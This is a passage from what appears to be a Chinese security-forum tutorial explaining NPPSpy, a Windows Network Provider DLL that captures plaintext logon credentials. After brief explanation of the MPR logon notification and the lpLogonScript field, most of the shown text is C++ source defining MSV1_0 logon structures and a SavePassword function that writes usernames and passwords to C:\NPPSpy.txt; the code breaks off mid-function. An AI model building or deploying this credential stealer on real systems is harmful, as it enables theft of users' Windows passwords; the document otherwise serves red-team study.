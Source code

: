 ![image-20211220163317277](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4f322b26f3ae602c4880de222b2bb5b59733496c.png)

只需要记住一点，看完了，记得把 include 的代码给删掉，不然就出现宏重定义了

对于这个函数，还有最后一个要注意的是`lpLogonScript`，把它赋值为NULL，让MPR释放内存即可。

![image-20211220163522836](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-536cb183a21b665361888c6b8544ae82b45cca1e.png)

至此，作者`NPPSpy.c`的代码，我想大家应该都明白是啥意思了吧。那个`SavePassword`函数就单纯是一个写文件的操作，我这里就不做过多的赘述了。

```cpp
#include <Windows.h>

// from npapi.h
#define WNNC_SPEC_VERSION                0x00000001
#define WNNC_SPEC_VERSION51              0x00050001
#define WNNC_NET_TYPE                    0x00000002
#define WNNC_START                       0x0000000C
#define WNNC_WAIT_FOR_START              0x00000001

//from ntdef.h
typedef struct _UNICODE_STRING
{
    USHORT Length;
    USHORT MaximumLength;
    PWSTR Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

// from NTSecAPI.h
typedef enum _MSV1_0_LOGON_SUBMIT_TYPE
{
    MsV1_0InteractiveLogon = 2,
    MsV1_0Lm20Logon,
    MsV1_0NetworkLogon,
    MsV1_0SubAuthLogon,
    MsV1_0WorkstationUnlockLogon = 7,
    MsV1_0S4ULogon = 12,
    MsV1_0VirtualLogon = 82,
    MsV1_0NoElevationLogon = 83,
    MsV1_0LuidLogon = 84,
} MSV1_0_LOGON_SUBMIT_TYPE, * PMSV1_0_LOGON_SUBMIT_TYPE;

// from NTSecAPI.h
typedef struct _MSV1_0_INTERACTIVE_LOGON
{
    MSV1_0_LOGON_SUBMIT_TYPE MessageType;
    UNICODE_STRING LogonDomainName;
    UNICODE_STRING UserName;
    UNICODE_STRING Password;
} MSV1_0_INTERACTIVE_LOGON, * PMSV1_0_INTERACTIVE_LOGON;

void SavePassword(PUNICODE_STRING username, PUNICODE_STRING password)
{
    HANDLE hFile;
    DWORD dwWritten;

    hFile = CreateFile(TEXT("C:\\NPPSpy.txt"),
        GENERIC_WRITE,
        0,
        NULL,
        OPEN_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile != INVALID_HANDLE_VALUE)
```